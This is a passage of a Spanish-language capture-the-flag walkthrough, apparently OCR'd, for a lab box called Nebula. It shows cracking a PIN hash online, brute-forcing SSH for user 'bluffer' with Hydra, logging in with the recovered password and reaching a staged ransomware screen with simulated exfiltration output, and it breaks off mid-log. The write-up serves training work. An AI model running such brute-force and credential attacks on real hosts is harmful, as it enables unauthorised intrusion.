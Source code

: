 ```
(function (Default) {
    Default["PIN_HASH"] = "22d04f665519fd8091f873476b0b4be4ad02abe10c610b1f81611b7cc37d6146";
})(Default || (Default = {}));

```
Para desencriptar este hash busco una pagina, y en la https://hashes.com/es/decrypt/hash encuentro una herramienta online. Con esta herramienta consigo un PIN de cuatro dígitos 5289, introduciéndolo me permite acceder a la pagina de un SIEM. Finalizando todas las tareas de SIEM tengo un archivo 3st3rn0cl31d0ma5t01d30.txt, que posiblemente me puede ayudar a encontrar la contraseña para el usuario bluffer, que encontre antes.

```
FLAG {G00D-J08!} 

```
Descargo este archivo y utilizo la herramienta Hydra para encontrar la contraseña para posible usuario "bluffer".

```
http://admin.nebula.io/open_siem/threat_management/3st3rn0cl31d0ma5t01d30.txt
hydra -l bluffer -P password.txt -s 1986 <IP-target> ssh 
 [1986][ssh] host: 10.10.134.0   login: bluffer   password: w.v2rLTM7
 
```
Voy a probar entrar a la maquina con usuario "bluffer" su contraseña "w.v2rLTM7" por protocolo ssh y puerto 1986

```
ssh bluffer@<IP-target> -p 1986

```
Al entrar aparece que el servidor esta encriptado por un ransomware RYUK V0.02a2

```
Payload successfully deployed[*] Encrypted Server ...
[*] Connecting to server 10.10.6PmP.@*x4[*] 
[*] Connected ...
[*] Authenticating user : fyc5QNQ0twf*mjc2ebr[*] 
[*] Authentication successful.
[*] Accessing server resources : kvd2MAV@vxk4mcg!ecv
[*] Downloading sensitive data : pdAFihaBYt6@*x4-T6Qqvq8ph.6PmP 
[*] GET /admin/config/settings HTTP/1.1
[*] Host: 127.0.0.1
[*] Hostname: Nebula Server Kernel
[*] Authorization: Bearer : <token> CJcKuhwvsYKx3g9-yM.LwGfJEqXT.2u8co_Cid!.bW8ii8np7_KEgDFegEh34F-F42a6QTEmbPyTg </token>
[*] Data received from server :
---------------------------
root::0:0:root:/root:/bin/bash
admin:x:1:1:admin:/admin:/bin/sh
[*] Injecting malicious code
[*] Sending payload ...
[*] POST /admin/upload HTTP/1.1
[*] Content-Type: application/x-www-form-urlencoded
[*] Payload:

```
Estoy dentro del servidor pero no tengo permisos...

